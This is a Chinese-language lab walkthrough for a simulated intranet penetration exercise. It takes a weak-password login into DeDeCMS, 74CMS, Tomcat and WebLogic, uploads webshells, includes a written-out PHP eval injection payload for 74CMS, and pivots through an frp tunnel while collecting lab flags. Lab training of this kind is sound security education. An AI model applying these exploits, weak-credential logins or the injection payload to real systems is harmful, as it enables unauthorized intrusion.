



# 简易内网渗透演练

[TOC]

## 一.靶场介绍

#### 1.场景介绍

本靶场通过常见CMS站以及中间件服务站点进行搭建，以小型服务网络作为基础架构，模拟小型的内外网环境。靶场模拟了从外网打点到内网渗透测基础过程，涉及到目录扫描、口令爆破、代理隧道、漏洞利用等知识点。

#### 2.场景拓扑



#### 3.攻击路线



#### 4.知识点

CMS公开漏洞利用

文件上传漏洞利用

目录扫描

BurpSuite工具使用

连接代理

#### 5.CVE漏洞编号

CVE-2018-2894

CVE-2020-35339

#### 6.Attack&ck模型/Shield防御模型

T1595 - 主动扫描

T1090 - 连接代理

T1059 - 命令行界面

T1203 - 利用客户端漏洞获取执行权限

T1110 - 暴力破解

T1005 - 从本地系统收集敏感数据

#### 7.Engage攻防模型

EAC0014 - 软件操作

EAC0004 - 网络分析

EAC0021 - 攻击向量迁移

EAC0003 - 系统活动监控

## 二.靶场题解

#### 阶段一：Web01主机渗透测试

##### 任务1：DeDeCMS弱口令登陆（T1595 - 主动扫描、T1059 - 命令行界面）

```
本场景的第1个任务是利用目录扫描工具可以发现DeDeCMS的登录后台并尝试登录。

dede是织梦内容管理系统dedecms的简称，是一个PHP开源网站管理系统，也是使用用户最多的PHP类CMS系统。

该任务可以通过以下操作完成。
```

已知目标地址`192.168.1.100`，`Win10攻击机`使用扫描工具进行探测，工具路径如下，进入该目录：


在地址栏输入cmd并回车启动命令行：



运行命令启动扫描：

```
python3 dirsearch.py -u 192.168.1.100 -e *
```


发现dede目录，尝试访问：


发现uploads目录，判断dedecms为默认安装，尝试访问后台：

```
http://192.168.1.100/dede/uploads/dede
```


尝试使用弱口令`admin/admin`登录，登录成功：


##### 任务2：文件上传GetShell（T1203 - 利用客户端漏洞获取执行权限）

```
本场景的第2个任务是利用文件上传漏洞GetShell。

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。一般都是指“上传Web脚本能够被服务器解析”的问题。

该任务可以通过以下操作完成。
```

查看DeDeCMS的版本，发现是V5.7版本，该版本存在文件上传漏洞：


点击`文件式管理器`>>`文件上传`（若无反应请网站加载完成后再次尝试）：


点击`选择文件`>>`shell.php`>>`打开(O)`：


点击`上传文件`


后门文件上传成功：


使用冰蝎Shell管理工具进行连接，工具路径如下：


进入工具目录，双击`Behinder.jar`启动：


右键新增shell：


shell信息如下：

```
URL：http://192.168.1.100/dede/uploads/uploads/shell.php

密码：rebeyond
```


点击`保存`后出现URL：


双击URL，点击`虚拟终端`>>`启动`，输入命令查看权限：


成功获取system权限。

`文件管理`中发现flag：


```
flag{9710-42A0-3272-1A49-4A16-638C-30A4-85E8}
```

#### 阶段二：Web02主机渗透测试

##### 任务3：字典爆破登录后台（T1059 - 命令行界面、T1110 - 暴力破解）

```
本场景的第3个任务是登陆骑士CMS后台，并且利用Burpsuite进行后台口令爆破。

Burpsuite是用于攻击web应用程序的集成平台，包含了许多工具。Burpsuite为这些工具设计了许多接口，以加快攻击应用程序的过程。所有工具都共享一个请求，并能处理对应的HTTP消息、持久性、认证、代理、日志、警报。

该任务可以通过以下操作完成。
```

内网存活主机探测，进入扫描器目录，路径如下：


在该目录下启动命令行，使用s扫描器进行扫描：

```
s.exe tcp 192.168.1.0/24 80
```


使用目录扫描工具对目标进行探测，发现目标是74CMS：

```
python3 dirsearch.py -u 192.168.1.150 -e *
```


确认目标是74CMS后尝试访问目标后台地址：

```
http://192.168.1.150/74cms/upload/index.php?m=admin&c=index&a=login
```


双击Burpsuite工具进行密码爆破：


点击`Next`>>`Start Burp`启动工具，点击`Proxy`，此时已开启拦截：


浏览器中输入用户名`admin`，密码`123`，切换代理为Burpsuite后点击`登录`：


Burpsuite工具中找到登录动作的包，可通过点击Forword进行过滤：


将包发送给`Intruder`：


点击`Intruder`>>`Positions`，点击`Clear`清空所有爆破点，双击密码：


点击`Add`设置为爆破点：


点击`Payloads`，点击`Load ...`添加字典，字典的绝对路径为`C:\Users\Administrator\Desktop\工具\字典\lotDict\password.txt`：


点击`Start attack`进行爆破：


按照`length`进行排序，发现密码`123456`的长度比较特殊：


关闭爆破窗口，点击`Discard`：


关闭拦截：


Burpsuite工具中设置代理规则：


将代理切换为`系统代理`，若出现提示需要重新提交表单，点击`继续`：


尝试使用`admin/123456`进行登录，点击`登录`：


登录成功后点击`取消`：


##### 任务4：任意代码执行（T1203 - 利用客户端漏洞获取执行权限）

```
本场景的第4个任务是在后台利用公开漏洞进行Shell的获取。

骑士cms人才系统，是一项基于PHP+MYSQL为核心开发的一套免费+开源专业人才网站系统。软件具执行效率高、模板自由切换、后台管理功能方便等诸多优秀特点。全部代码都为骑士网络原创,有着完全的知识产权。凭借骑士网络的不断创新精神和认真的工作态度，骑士人才系统已成国内同类软件中的最好用的人才系统。

该任务可以通过以下操作完成。
```

点击`系统`，`网站域名`输入`http://127.0.0.1/.',eval($_POST[cmd]),'/.com`：


点击`保存修改`：


启动蚁剑工具：


添加shell：


shell信息如下：

```
URL地址：http://192.168.1.150/74cms/upload/index.php?m=admin

连接密码：cmd
```


点击`添加`后右键URL点击`虚拟终端`，进入终端后查看权限：


双击URL进入文件管理，发现flag：


```
flag{B6AB-7C20-AC52-F913-E56E-327A-FD82-1F8A}
```

##### 任务5：内网主机探测（T1595 - 主动扫描）

```
本场景的第5个任务是利用扫描器探测内网存活主机。

远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变$PATH或程序执行环境的其他方面来执行一个恶意构造的代码。

该任务可以通过以下操作完成。
```

将s扫描器上传至蚁剑中：


蚁剑工具中`s.exe`文件所在目录下右键点击`>_ 在此处打开终端`，执行命令：

```
s.exe tcp 192.168.2.0/24 22,80,135,8080,3389 > 1.txt
```


刷新`s.exe`文件所在目录，双击查看扫描结果`1.txt`，发现两台存活主机。：


若未发现请等待扫描结束，扫描结束标志如下：


##### 任务6：搭建代理隧道（T1059 - 命令行界面、T1090 - 连接代理）

```
本场景的第6个任务是利用frp工具建立代理隧道。

内网穿透，也即NAT穿透，进行NAT穿透是为了使具有某一个特定源IP地址和源端口号的数据包不被NAT设备屏蔽而正确路由到内网主机。下面就相互通信的主机在网络中与NAT设备的相对位置介绍内网穿透方法。

该任务可以通过以下操作完成。
```

进入代理工具目录，目录如下：


配置`frpc.ini`文件，内容如下：


蚁剑工具中双击URL进入文件目录，将`frpc.exe`文件和`frpc.ini`文件通过拖拽的方式进行上传：


`Win10攻击机`中，在代理工具的目录下，地址栏输入cmd并回车启动命令行：


输入命令启动代理服务端：

```
frps.exe -c frps.ini
```


蚁剑工具中`frpc.exe`文件所在目录下右键点击`>_ 在此处打开终端`，执行命令：

```
frpc.exe -c frpc.ini
```


隧道建立成功：


后续任务中若出现访问网站较慢或卡顿的情况，请在`frps.exe`运行的命令行中连续回车，观察是否有连续的流量报文，若问题仍未解决，快捷键`Ctrl + C`终止`frps.exe`进程并迅速按`↑`键后回车，重启代理服务端。

#### 阶段三：Service01主机渗透

#####   任务7：Tomcat服务弱口令登录（T1090 - 连接代理）

```
本场景的第7个任务是发现Tomcat后台并尝试弱口令登录。

Tomcat是Apache软件基金会（Apache Software Foundation）的Jakarta项目中的一个核心项目，由Apache、Sun和其他一些公司及个人共同开发而成。由于有了Sun的参与和支持，最新的Servlet和JSP规范总是能在Tomcat中得到体现，Tomcat 5支持最新的Servlet 2.4和JSP 2.0规范。因为Tomcat技术先进、性能稳定，而且免费，因而深受Java爱好者的喜爱并得到了部分软件开发商的认可，成为比较流行的Web应用服务器。

该任务可以通过以下操作完成。
```

谷歌浏览器新增代理：


点击`新建情景模式...`


命名为`frp`，点击`创建`：


设置代理规则：


完成配置后点击`应用选项`进行保存：


尝试访问`http://192.168.2.50:8080`，浏览器切换至frp代理：


进入Tomcat管理后台：


尝试弱口令登录，最终通过`admin/1234`登录成功：


登陆成功后发现上传点：


#####  任务8：文件上传获取权限（T1203 - 利用客户端漏洞获取执行权限）

```
本场景的第8个任务是制作jsp的war包并上传，获取目标权限。

如果一个Web应用程序的目录和文件非常多，那么将这个Web应用程序部署到另一台机器上，就不是很方便了，这时可以将Web应用程序打包成Web归档（WAR）文件，这个过程和把Java类文件打包成JAR文件的过程类似。利用WAR文件，可以把Servlet类文件和相关的资源集中在一起进行发布。在这个过程中，Web应用程序就不是按照目录层次结构来进行部署了，而是把WAR文件作为部署单元来使用。

该任务可以通过以下操作完成。
```

进入`C:\Users\Administrator\Desktop\工具\shell\Behinder_v3.0_Beta_11.t00ls\server`目录，将`shell.jsp`文件进行压缩：


重命名`shell.zip`文件为`shell.war`


该`shell.war`进行上传：


点击`Deploy`进行上传：


上传成功：


冰蝎工具设置代理：


代理信息如下，设置完成后点击`保存`：


新增shell，shell信息如下：

```
URL：http://192.168.2.50:8080/shell/shell.jsp

密码：rebeyond
```


点击`保存`后双击新增的URL，显示`已连接`后点击`虚拟终端`，执行命令给查看权限：


冰蝎工具中进入`文件管理`，发现flag：


```
flag{76D4-523B-9B4E-CF39-262F-3791-28C1-93B8}
```

#### 阶段四：Service02主机渗透

##### 任务9：敏感信息泄漏（T1005 - 从本地系统收集敏感数据）

```
本场景的第9个任务是目标主机信息收集，发现敏感文件。

信息收集是指通过各种方式获取所需要的信息。信息收集是信息得以利用的第一步，也是关键的一步。信息收集工作的好坏，直接关系到整个信息管理工作的质量。

该任务可以通过以下操作完成。
```

发现敏感文件：


双击该文件发现敏感信息：


之前的扫描结果中存在另外一台存活主机，尝试访问WebLogic默认后台：

```
http://192.168.2.100:7001/console
```


成功发现后台，尝试使用敏感信息`weblogic/saining123456`登录：


登录成功，将其余标签页关闭：


发现`WebLogic Server`版本为`12.2.1.3.0`，可能存在漏洞：


##### 任务10：文件上传漏洞利用（T1203 - 利用客户端漏洞获取执行权限）

```
本场景的第10个任务是利用文件上传漏洞获取目标主机权限。

WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

该任务可以通过以下操作完成。
```

点击`base_domain`：


展开`高级`：


勾选下方的`启用Web服务测试页`：


点击最下方的`保存`：


保存后打开新的标签页访问`http://192.168.2.100:7001/ws_utc/config.do`，若显示较慢可利用任务6结尾的方法重启代理服务端，代理隧道重建后再刷新查看：


将敏感文件中`path:`后面的部分复制粘贴至`当前的工作目录`，替换原有的内容：


完成后点击`提交`>>`确定`>>`安全`：


点击`添加`，弹出框中的输入栏输入两次`123`，点击`选择文件`，选中`C:\Users\Administrator\Desktop\工具\shell\Behinder_v3.0_Beta_11.t00ls\server`目录下的`shell.jsp`文件并点击`打开（O）`，上传完成后先不要点击`提交`：


Burpsuite工具开启拦截：


浏览器中切换代理模式为`Burpsuite`后迅速点击`提交`按钮：


Burpsuite工具闪烁，拦截到包信息，点击`Forward`找到下图所示类似的包：


将包发送到`Repeater`：


`Repeater`中发送数据包：


`Response`中出现响应，获取到时间戳：


拼接shell：

```
URL：http://192.168.2.100:7001/ws_utc/css/config/keystore/时间戳_shell.jsp

密码：rebeyond
```

使用冰蝎工具连接：


双击新增的URL，在`命令执行`中查看权限：


`文件管理`中发现flag：


```
flag{B719-1F1D-4CE7-E019-2E6B-EDAC-CB35-87FB}
```